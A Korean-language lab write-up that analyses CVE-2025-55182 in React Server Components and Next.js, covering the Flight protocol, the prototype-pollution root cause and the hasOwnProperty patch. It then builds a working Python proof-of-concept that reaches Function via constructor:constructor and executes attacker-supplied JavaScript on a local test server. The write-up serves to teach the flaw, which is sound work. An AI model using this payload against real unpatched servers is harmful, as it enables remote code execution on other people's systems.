


## 타겟 서버 제작

- React Server Component를 사용하는 유명한 라이브러리인 Nextjs를 사용하여 간단한 채팅 프로그램인 Morrow를 제작하였다.
- 해당 CVE가 패치되지 않은 버전을 package.json 파일에 작성한 후 `npm install` 명령을 사용하여 특정 라이브러리 버전을 설치했다.
- 서버에서 DB와 연결되어 있으면 좋을 것 같아 better-sqlite 라이브러리를 설치하여 SQLite로 DB를 구성하였다.

```json
{
  "name": "Morrow",
  "version": "1.0.0",
  "description": "Chating web with RSCs",
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "keywords": ["RCE", "R2S", "CVE-2025-55182"],
  "author": "gkaxowns",
  "dependencies": {
    "better-sqlite3": "^13.0.3",
    "next": "^15.5.5",
    "react": "^19.1.0",
    "react-dom": "^19.1.0"
  }
}
```

- 사용자가 Form을 사용하여 POST 요청을 보내면, Nextjs의 서버 함수가 실행되며 Sqlite DB에 채팅 기록을 저장하는 방식으로 구현하였다.

```javascript
import Chat from "./components/Chat";
import { getAllMessages, addMessage } from "./lib/db";
import Form from "next/form";

export const dynamic = "force-dynamic";

async function submit(formData) {
  "use server";
  const name = formData.get("name");
  const message = formData.get("message");
  if (!name || !message) return;
  addMessage.run(name, message);
}

export default function Page() {
  const messages = getAllMessages.all();

  return (
    <div className="hero">
      <header className="brand-header">
        <div className="logo-badge">💬</div>
        <h1 className="brand-title">Morrow</h1>
        <p className="brand-desc">
          실시간 메시지 보드에 자유롭게 이야기를 남겨보세요.
        </p>
      </header>

      <div className="form-card">
        <Form action={submit} className="message-form">
          <div className="input-row">
            <div className="input-field name-field">
              <input
                type="text"
                name="name"
                placeholder="작성자"
                required
                maxLength={50}
                autoComplete="off"
              />
            </div>
            <div className="input-field msg-field">
              <input
                type="text"
                name="message"
                placeholder="메시지를 입력하세요..."
                required
                maxLength={100}
                autoComplete="off"
              />
            </div>
            <button type="submit" className="submit-button">
              <span>전송</span>
              <svg
                width="15"
                height="15"
                viewBox="0 0 24 24"
                fill="none"
                stroke="currentColor"
                strokeWidth="2.2"
                strokeLinecap="round"
                strokeLinejoin="round"
              >
                <line x1="22" y1="2" x2="11" y2="13"></line>
                <polygon points="22 2 15 22 11 13 2 9 22 2"></polygon>
              </svg>
            </button>
          </div>
        </Form>
      </div>

      <section className="chat-section">
        <div className="chat-section-header">
          <h2 className="chat-section-title">메시지 피드</h2>
          <span className="chat-count-badge">총 {messages.length}개</span>
        </div>

        <div id="chat_list" className="chat-list">
          {messages.length === 0 ? (
            <div className="empty-state">
              <span className="empty-icon">📭</span>
              <p className="empty-title">등록된 메시지가 없습니다.</p>
              <p className="empty-desc">첫 번째 메시지를 남겨보세요!</p>
            </div>
          ) : (
            messages.map((msg) => (
              <Chat key={msg.id} name={msg.name} message={msg.message} />
            ))
          )}
        </div>
      </section>
    </div>
  );
}
```



## 취약점 원리(이유) 분석

### RSC 탄생 이유와 원리

- React Server Component(RSC)란 기존 React가 유저에게 모든 컴포넌트를 랜더링하도록 하여 유저의 부담을 줄이기 위해 도입된 컴포넌트이다.
- 백엔드에서 컴포넌트를 비동기적으로 랜더하고 이를 유저에게 나중에 전송하여 유저의 컴퓨팅 부담을 줄이고 민감한 데이터까지 유저에게 전달되는 것을 막는다.
- 백엔드에서 랜더링되는 컴포넌트는 Flight라는 JSON 형식의 프로토콜로 송수신되는데, 이는 React Component 같은 다양한 JS 객체를 전달하기 위해 따로 직렬화를 진행한 프로토콜을 만들었다.

### Flight 프로토콜

- Flight 프로토콜은 객체들을 Chunk라는 단위로 나누고 JSON 형식을 사용하며 독자적인 직렬화 포맷이 존재한다.
- 아래와 같은 표현식을 사용한 직렬화 포맷을 활용하여 객체들을 직렬화/역직렬화할 수 있다.\
  이보다 더 많은 포맷과 표현식이 존재하지만, 주로 해당 CVE의 PoC에서 사용될 표현식 위주로 정리하였다.

| 표현식   | 객체 타입       | 작성 예시                | 설명                                      |
| -------- | --------------- | ------------------------ | ----------------------------------------- |
| \$\$     | String          | "Hello \$\$"->"Hello \$" | 문자 \$를 이스케이프                      |
| \$0-9a-f | Chunk Reference | "\$1", "\$a"             | Hex 값을 ID로 가지는 Chunk를 참조         |
| \$@      | Promise/Chunk   | "\$@0", "\$@1"           | Chunk를 Promise/thenable 계열 값으로 참조 |
| \$K      | FormData        | "\$K0", "\$K1"           | FormData의 key/reference 계열 값으로 참조 |
| \$B      | Blob            | "\$B0", "\$B1"           | Chunk를 Blob 값으로 참조                  |

- 또한 `:`를 사용해서 특정 객체의 하위 객체에 접근할 수 있다.

- 이제 실제로 어떤 식으로 구성되어 있는지 알아보기 위해 타겟 서버에 요청을 보내 Burp Suite 패킷을 잡아 HTTP를 분석해보자. (생략된 헤더가 있을 수 있음)

```http
POST / HTTP/1.1
Host: 192.168.0.4:3000
Content-Length: 508
next-action: 4048c4be4d0e8133413ee23335b1d210995a6f6f52
Accept: text/x-component
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE2V4FqyKHgSoXIpi
Origin: http://192.168.0.4:3000
Referer: http://192.168.0.4:3000/
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en;q=0.8
Connection: keep-alive

------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_$ACTION_ID_4048c4be4d0e8133413ee23335b1d210995a6f6f52"


------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_name"

Flight
------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_message"

테스트 용 메시지입니다
------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundaryE2V4FqyKHgSoXIpi--
```

- 위 HTTP 요청의 Body를 Flight 형식으로 작성하면 아래와 같이 작성할 수 있다.

```json
{
  "0": ["$K1"],
  "1": {
    "$ACTION_ID_4048c4be4d0e8133413ee23335b1d210995a6f6f52": "",
    "name": "Flight",
    "message": "테스트 용 메시지입니다"
  }
}
```

- 여기에서 각 Key-Value 쌍이 Chunk이며 Key로 들어간 값이 해당 Chunk의 ID 값이다.
- 0번 Chunk의 리스트 안에 1번 청크가 FormData 값으로 참조되며, 1번 청크의 Object가 백엔드에서 FormData 형식으로 불러올 수 있게 된다.
- 1번 청크의 \$ACTION_ID로 시작하는 Key는 Flight 프로토콜의 표현식으로서 역직렬화 대상에 포함되는 것이 아닌 서버가 실행해야 할 ACTION이 무엇인지 알려주는 값으로 생각해야 한다.

### 취약점 핵심 원인 분석

- 해당 취약점은 위에서 설명했던 Flight 프로토콜의 역직렬화 과정에서의 검증 미흡이 가장 핵심적인 원인이라고 할 수 있다.
- 아래의 검증이 미흡했던 실제 역직렬화 코드의 일부분을 확인하면 어느 부분이 문제인지 알 수 있다.

```javascript
  const path = reference.split(':');
  const id = parseInt(path[0], 16);
  const chunk = getChunk(response, id);
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      let value = chunk.value;
      for (let i = 1; i < path.length; i++) {
        value = value[path[i]];
      }
      return map(response, value);
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      const parentChunk = initializingChunk;
      chunk.then(
// 이후 코드는 생략...
```

- 위 코드를 확인하면 `:`을 기준으로 값을 split 하고, 하위 객체에 접근하는 부분에서 실제로 존재하는 하위 객체인지 확인하는 검증 로직이 없는 것을 확인할 수 있다.
- 실제 취약점이 패치된 코드의 동일 부분을 확인하면 아래와 같은 검증 코드가 추가된 것을 볼 수 있다.

```javascript
const name = path[i];
if (typeof value === "object" && hasOwnProperty.call(value, name)) {
  value = value[name];
}
```

- `hasOwnProperty`를 사용하여 하위 객체의 존재 여부를 검증하면서 취약점을 수정한 것으로 보인다.

### Prototype Pollution

- Javascript에도 Class가 존재하지만, 다른 Object Oriented Programming 언어와는 달리 내부적으로 **객체**를 기반으로 상속을 한다.
- 만약 상속한 상위 객체에 접근하여 특정 값을 변조할 수 있다면 그 변조한 상위 객체를 상속하는 모든 객체의 값이 **오염**된다
- 이런 JS의 상속 특성을 활용하여 **객체의 prototype(부모 객체)에 접근하여 값을 오염(Pollution)하는 해킹 기법**을 **Prototype Pollution**이라고 한다.
- 일반적으로 아래처럼 `__proto__` 혹은 `constructor` 를 사용하여 오염이 가능하다.

```javascript
const test = {};
test.__proto__.a = "awef";

console.log(test.a); // 출력 : "awef"

const asdf = {};
console.log(asdf.a); // 출력 : "awef" -> 같은 Object 객체을 상속하기에 값이 오염됨
```

```javascript
var test1 = 1;
var test2 = 2;

console.log(test2.toString()); // 출력 : "2"
test1.constructor.prototype.toString = function () {
  return "hacked";
};
console.log(test2.toString()); // 출력 : "hacked" -> 같은 Number 객체를 상속하기에 함수가 오염됨
```

- 이제 위에서 봤던 역직렬화 코드를 다시 확인해보면 Prototype Pollution이 일어날 수 있는 부분을 찾을 수 있다.

```javascript
const path = reference.split(':'); // path는 사용자의 입력을 :로 나눈 리스트
// 생략
for (let i = 1; i < path.length; i++) {
    value = value[path[i]]; // __proto__또는 constructor를 넣으면 오염시킬 수 있음
// 생략
```

- 또한 수정된 코드에서 언급한 검증 코드가 어떻게 Prototype Pollution을 막았는지도 확인할 수 있음\
  `hasOwnProperty`를 사용하여 실제로 해당 객체의 Property가 아닌 `__proto__`이나 `constructor`에는 접근할 수 없음

```javascript
const name = path[i];
if (typeof value === "object" && hasOwnProperty.call(value, name)) {
  value = value[name];
}
```

### Promise와 thenable

- Javascript에서 Promise 객체는 비동기 작업이 맞이할 미래의 완료 또는 실패와 그 결과 값을 나타내는 객체로, Promise 객체가 생성될 때에는 반환해야 할 값이 아직 정해지지 않은 경우에 사용된다.
- 마치 나중에 반환 값을 알려주겠다는 **약속**(Promise)라고 생각할 수 있다.
- Promise는 3가지의 상태 중 하나를 가질 수 있으며, _Pending_(대기), _fulfilled_(완료), _rejected_(거부)로 나뉜다.
- 대기 상태는 아직 값이 정해지지 않았다는 것을 말하지만, 완료나 거부 상태는 값이 정해진 상태를 의미한다.\
  만약 값이 정해졌다면 Promise의 `then` 메서드에 의해 설정한 동작들이 수행되게 된다.
- Promise 객체처럼 `then` 메서드를 가지고 있는 객체들을 **Thenable**이라고 한다.\
  resolve는 thenable 객체의 값을 정하는 과정으로, `resolve` 함수나 `await` 지정자를 통해 resolve할 수 있다.

### Nextjs에서 취약점 유도

- Nextjs는 RSC를 사용하는 가장 유명한 라이브러리 중 하나로 대부분의 RSC는 전부 Nextjs와 같이 사용된다고 봐도 무방하다.
- 먼저 [Flight 프로토콜](#flight-프로토콜)에서 Nextjs으로 만든 타겟 서버에 보냈던 예시 요청을 분석하여 어떤 식으로 구성되어 있는지 다시 확인해보자.

```http
POST / HTTP/1.1
Host: 192.168.0.4:3000
next-action: 4048c4be4d0e8133413ee23335b1d210995a6f6f52
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE2V4FqyKHgSoXIpi
Accept-Language: ko-KR,ko;q=0.9,en;q=0.8
# 생략...
Connection: keep-alive

------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_$ACTION_ID_4048c4be4d0e8133413ee23335b1d210995a6f6f52"


------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_name"

Flight
------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="1_message"

테스트 용 메시지입니다
------WebKitFormBoundaryE2V4FqyKHgSoXIpi
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundaryE2V4FqyKHgSoXIpi--
```

- 해당 요청에서 `Content-Type` 헤더 값이 `multipart/form-data`인 것과 `next-action` 이라는 헤더가 존재한다는 것을 확인할 수 있다.
- Nextjs에서 서버 Action을 다루는 코드인 `action-handler.ts` 를 확인해보면 아래와 같은 코드가 존재한다.

```javascript
if (isMultipartAction) {
    if (isFetchAction) {
        // 생략...
        boundActionArguments = await decodeReplyFromBusboy(
            busboy,
            serverModuleMap,
            { temporaryReferences }
        )
```

- 즉 들어온 서버 Action의 `Content-Type`이 `multipart/form-data`이면 `decodeReplyFromBusboy`함수를 실행하게 되고, 이 함수가 `multipart/form-data` 스트림을 읽어서 Flight 역직렬화 시스템에 맞게 decode를 진행하고 Promise인 Chunk를 resolve하여 callback 함수가 청크를 리턴하게 된다.
- 이후 [취약점 핵심 원인 분석](#취약점-핵심-원인-분석)에서 설명한 것 같이 역직렬화를 진행하는 과정에서 검증 오류로 인해 [Prototype Pollution](#prototype-pollution)까지 진행할 수 있게 된다.
- 이제 실제 Flight 프로토콜의 수신과 역직렬화 방식의 취약점, Prototype Pollution까지 확인하였으니 RCE로 유도해보자.
- [Promise와 thenable](#promise와-thenable)를 이용하여 청크에 then 메서드를 넣고, 이를 서버에서 resolve 시키도록 유도하여 청크에 넣었던 then 메서드가 실행되도록 하는 방식으로 원하는 함수를 실행시킬 수 있다.
- 처음 청크(정확하게는 청크의 Promise)는 `getOutlinedModel`함수에 의해 불러오게 된다.

```javascript
function getOutlinedModel<T>(
  response: Response,
  reference: string,
  parentObject: Object,
  key: string,
  map: (response: Response, model: any) => T,
): T {
  const path = reference.split(':');
  const id = parseInt(path[0], 16);
  const chunk = getChunk(response, id);
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      let value = chunk.value;
      for (let i = 1; i < path.length; i++) {
        value = value[path[i]];
      }
      return map(response, value);
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      const parentChunk = initializingChunk;
      chunk.then(
        createModelResolver(
          parentChunk,
          parentObject,
          key,
          chunk.status === CYCLIC,
          response,
          map,
          path,
        ),
        createModelReject(parentChunk),
      );
// 생략...
```

- 여기에서 Chunk는 기본적으로 Promise 형식이기 때문에 초기에는 PENDING 상태이다.\
  그래서 아래의 then을 실행하여 resolve 시켜준다.

```javascript
// We subclass Promise.prototype so that we get other methods like .catch
Chunk.prototype = (Object.create(Promise.prototype): any);
// TODO: This doesn't return a new Promise chain unlike the real .then
Chunk.prototype.then = function <T>(
  this: SomeChunk<T>,
  resolve: (value: T) => mixed,
  reject: (reason: mixed) => mixed,
) {
  const chunk: SomeChunk<T> = this;
  // If we have resolved content, we try to initialize it first which
  // might put us back into one of the other states.
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      resolve(chunk.value);
      break;
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      if (resolve) {
        if (chunk.value === null) {
          chunk.value = ([]: Array<(T) => mixed>);
        }
        chunk.value.push(resolve);
      }
      if (reject) {
        if (chunk.reason === null) {
          chunk.reason = ([]: Array<(mixed) => mixed>);
        }
        chunk.reason.push(reject);
      }
      break;
    default:
      reject(chunk.reason);
      break;
  }
};
```

- then이 실행되고 현재 status는 chunk의 value 값에 resolve callback 함수가 들어가게 된다.
- 이후 위에서 설명했던 `decodeReplyFromBusboy`로 인해 청크가 디코딩 되고 Promise의 값이 정해지게 되면 객체가 Promise에서 chunk 객체로 바뀌게 된다.\
  이때 Promise의 value에 들어있던 값이 resolve 되므로, callback 함수가 리턴한 chunk가 Thenable이라고 하면, 그 then도 같이 실행될 수 있다.
- 그럼 callback 함수가 리턴한 chunk, 즉 유저가 보낸 그 chunk에 then 값이 함수라면 공격자가 이 값을 조작하여 원하는 함수가 실행되게 할 수 있다.\
  아래 실제 PoC에서의 Payload를 통해 어떻게 조작하였는지 확인해보자.

```json
"0": {
    "then": "$1:__proto__:then",
}
```

- 위처럼`$`을 사용하여 Chunk를 가져오고 `__proto__`로 상속한 객체인 prototype에 접근하여 `then`을 가져와 결론적으로 `Chunk.prototype.then`을 가져오는 것을 확인할 수 있다.\
  이전에 확인했듯 `Chunk.prototype.then`은 함수이기에, 이 청크는 Thenable이 된다.
- 다음 공격을 체이닝하기 위해 `Chunk.prototype.then`의 정의를 다시 확인해보자.

```javascript
// We subclass Promise.prototype so that we get other methods like .catch
Chunk.prototype = (Object.create(Promise.prototype): any);
// TODO: This doesn't return a new Promise chain unlike the real .then
Chunk.prototype.then = function <T>(
  this: SomeChunk<T>,
  resolve: (value: T) => mixed,
  reject: (reason: mixed) => mixed,
) {
  const chunk: SomeChunk<T> = this;
  // If we have resolved content, we try to initialize it first which
  // might put us back into one of the other states.
  switch (chunk.status) {
    case RESOLVED_MODEL:
      initializeModelChunk(chunk);
      break;
  }
  // The status might have changed after initialization.
  switch (chunk.status) {
    case INITIALIZED:
      resolve(chunk.value);
      break;
    case PENDING:
    case BLOCKED:
    case CYCLIC:
      if (resolve) {
        if (chunk.value === null) {
          chunk.value = ([]: Array<(T) => mixed>);
        }
        chunk.value.push(resolve);
      }
      if (reject) {
        if (chunk.reason === null) {
          chunk.reason = ([]: Array<(mixed) => mixed>);
        }
        chunk.reason.push(reject);
      }
      break;
    default:
      reject(chunk.reason);
      break;
  }
};
```

- 기존 함수에서는 this 값이 Chunk Promise 값이였으나, 이번에는 공격자의 Chunk 객체이기에 대부분의 값을 공격자가 컨트롤할 수 있다.\
  `chunk.status`의 값이 `INITIALIZED`이면 `chunk.value`를 resolve 하니 이 값이 thenable이라면 다시 원하는 함수를 실행시킬 수 있다.\
  하지만 먼저 `initializeModelChunk`를 호출시켜 thenable로 만들 수 있도록 조작하기 위해 필요한 것을 확인해보자

```javascript
function initializeModelChunk<T>(chunk: ResolvedModelChunk<T>): void {
  const prevChunk = initializingChunk;
  const prevBlocked = initializingChunkBlockedModel;
  initializingChunk = chunk;
  initializingChunkBlockedModel = null;

  const rootReference =
    chunk.reason === -1 ? undefined : chunk.reason.toString(16);

  const resolvedModel = chunk.value;

  // We go to the CYCLIC state until we've fully resolved this.
  // We do this before parsing in case we try to initialize the same chunk
  // while parsing the model. Such as in a cyclic reference.
  const cyclicChunk: CyclicChunk<T> = (chunk: any);
  cyclicChunk.status = CYCLIC;
  cyclicChunk.value = null;
  cyclicChunk.reason = null;

  try {
    const rawModel = JSON.parse(resolvedModel);

    const value: T = reviveModel(
      chunk._response,
      {'': rawModel},
      '',
      rawModel,
      rootReference,
    );
```

- 위 함수의 정의에서 볼 수 있듯,`chunk.reason`가 -1이 아닌 정수로 정의되어 있다면 중간에 에러가 발생하는 일 없이 `reviveModel`를 정상적으로 실행시킬 수 있다.\
  `reviveModel`가 실행된다면 `chunk.value`값을 Thenable로 만들 수 있도록 역직렬화를 진행할 수 있을 것이다.

```javascript
  case 'B': {
    // Blob
    const id = parseInt(value.slice(2), 16);
    const prefix = response._prefix;
    const blobKey = prefix + id;
    // We should have this backingEntry in the store already because we emitted
    // it before referencing it. It should be a Blob.
    const backingEntry: Blob = (response._formData.get(blobKey): any);
    return backingEntry;
  }
```

- `reviveModel`가 실행되면 내부적으로 `parseModelString`을 호출하게 되고, 위에서 볼수 있듯 Blob 데이터를 처리하는 로직에서 `response._formData.get`함수를 이용하여 `backingEntry`를 정의한 후 이를 리턴한다.\
  이 값은 `chunk.value`의 `then` 값에 그대로 넣을 수 있을 것이다.
- 또한 여기에서 `chunk.response`값은 공격자가 마음대로 조작이 가능한 값이라는 점을 미루어볼 때, [Prototype Pollution](#prototype-pollution)을 사용하여 `response._formData.get`을 조작한다면 공격자가 원하는 어떤 함수도 실행할 수 있게 된다.

## 최종 R2S Payload 및 PoC 코드 작성

- 먼저 파이썬 `requests`로 `multipart` 요청을 보내기 위해서는 `requests_toolbelt`가 설치되어야 더 편하게 인코딩을 진행할 수 있다.\
  아래 명령을 통해 설치해주었다.

```bash
pip install reqeusts_toolbelt
```

- 그 후 Flight 형식에 맞춰 Payload를 구상해 보자\
  Chunk를 두 개 만들고 1번 Chunk가 0번을 thenable으로 가져와서 `Chunk.prototype.then`에 접근할 수 있게 하고, 0번 Chunk에서 `$1:__proto__:then`으로 이에 접근할 것이다.

```json
{
    "0": {
        "then": "$1:__proto__:then",
    },
    "1": "$@0"
```

- 그 다음 `chunk.status`가 `RESOLVED_MODEL`이여야 `initializeModelChunk`의 실행을 유도할 수 있고, `chunk.reason`가 -1이 아닌 정수로 정의되어야 하기에 아래와 같이 값을 추가하면 정상적으로 `reviveModel`의 실행이 유도될 것이다.

```json
{
    "0": {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": 0,
    },
    "1": "$@0"
```

- 그 다음으로는 `chunk.value`에 thenable 객체를 넣어주고, `$B` 표현식을 이용해 `response._formData.get`를 받아오게 하자.

```json
{
    "0": {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": 0,
        "value": "{\"then\": \"$B0\"}",
    },
    "1": "$@0"
```

- 이제 `chunk.response`값을 조작하여 원하는 함수가 `response._formData.get`에 들어가도록 유도할 것이다.\
  코드를 다시 확인하며 살펴보자.

```javascript
  case 'B': {
    // Blob
    const id = parseInt(value.slice(2), 16);
    const prefix = response._prefix;
    const blobKey = prefix + id;
    // We should have this backingEntry in the store already because we emitted
    // it before referencing it. It should be a Blob.
    const backingEntry: Blob = (response._formData.get(blobKey): any);
    return backingEntry;
  }
```

- `Chunk.value.then`에 들어갈 값은 `backingEntry`이다. 이를 함수로 만들기 위해서 `constructor`를 두 번 사용하여 Function.constructor에 접근하고, 이를 사용하여 원하는 함수를 만들 수 있다.

```javascript
const test = console.log.constructor("console.log('ef')"); // Function.constructor에 접근하여 test 선언

test(); // 출력 : "ef"
```

- 마치 `eval` 함수를 사용하는 것처럼 문자열을 그대로 Javascript 문법으로 해석하여 함수를 만드는 것을 볼 수 있다.\
  이를 `response._formData.get`대신 넣어 원하는 함수를 실행시키게 유도할 수 있다.
- `response.prefix`에 원하는 문자열을 넣고, 뒤에 붙여질 `id`값은 조작이 힘드니 `//`을 사용하여 뒤에 어떤 값이 오더라도 주석으로 처리되게 할 수 있다.
- 또한 React의 `Response` 객체에는 청크들을 관리하는 맵이 존재해야 하기에 간단하게 참조하여 이미 존재하는 맵을 사용하게 해야 한다.\
  아래 payload에서 `_chunks`가 이 맵이다.

```json
{
    "0": {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": 0,
        "value": "{\"then\": \"$B0\"}",
        "_response": {
            "_prefix": "console.log('CVE-2025-55182 RCE Success!')//",
            "_formData": {

                "get": "$1:constructor:constructor",
            },
            "_chunks": "$1:_response:_chunks",
        },
    },
    "1": "$@0"
```

- 이제 파이썬으로 이 페이로드를 옮기면 아래와 같다.

```python
payload_code = "console.log('CVE-2025-55182 RCE Success!')"
TARGET = "http://localhost:3000/"

payload = {
    "0": {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": 0,
        "value": '{"then": "$B0"}',
        "_response": {
            "_prefix": f"{payload_code}//",
            "_formData": {
                "get": "$1:constructor:constructor",
            },
            "_chunks": "$1:_response:_chunks",
        },
    },
    "1": "$@0",
}
```

- 이후 딕셔너리 객체로 선언한 payload의 각 청크를 `json.dump`를 이용해 문자열로 바꾸게 설정하였다.

```python
json_data = {key: json.dumps(value) for key, value in payload.items()}
```

- 이후 `requests_toolbelt`를 이용하여 인코딩을 진행하고 `Next-Action`이나 `Content-Type` 같은 헤더까지 포함하면 필요한 요구사항까지 만족할 수 있게 된다.

```python
m = MultipartEncoder(fields=json_data)

headers = {
    "Content-Type": m.content_type,
    "Next-Action": "x",
}

print(f"[+] Send Exploit Payload to {TARGET}")
response = requests.post(TARGET, headers=headers, data=m, timeout=10)
```

### PoC 실행

- 위에서 작성한 PoC 코드를 작성하면 실제로 원하는 함수가 실행되는지 확인해 보았다.
- 먼저 [타겟 서버 제작](#타겟-서버-제작)에서 만든 타겟 서버를 도커에 올려서 테스트하기 위해 아래와 같이 도커파일을 작성하였다.

```docker
FROM node:lts-alpine
WORKDIR /app

# 설치
RUN apk add --no-cache python3 make g++
COPY package*.json ./
RUN npm install

# 빌드
COPY . .
RUN npm run build

EXPOSE 3000
CMD ["npm", "run", "start"]
```

- PoC 코드에서 타겟을 설정 한 후 실행하니 도커 로그에 아래와 같은 문자열이 출력되며 RCE에 성공했다는 것을 확인할 수 있다.



## References

- [React2Shell(CVE-2025-55182) 취약점 완전 분석 | 엔키화이트햇](https://www.enki.co.kr/media-center/blog/complete-analysis-of-the-react2shell-cve-2025-55182-vulnerability#sum-everything-next-resolves-everything)
- [Prototype Pollution](https://www.hahwul.com/cullinan/attack/prototype-pollution/)
- [\[Python\] 파이썬 Requests로 "multipart/form-data" Post 하는 법](https://chuun92.tistory.com/5)
- [React2Shell-CVE-2025-55182-original-poc.js](https://github.com/lachlan2k/React2Shell-CVE-2025-55182-original-poc/blob/main/01-submitted-poc.js)
- [Promise - JavaScript | MDN](https://developer.mozilla.org/ko/docs/Web/JavaScript/Reference/Global_Objects/Promise)
- <https://github.com/react/react/blob/36df5e8b42a97df4092f9584e4695bf4537853d5/packages/react-server/src/ReactFlightReplyServer.js>
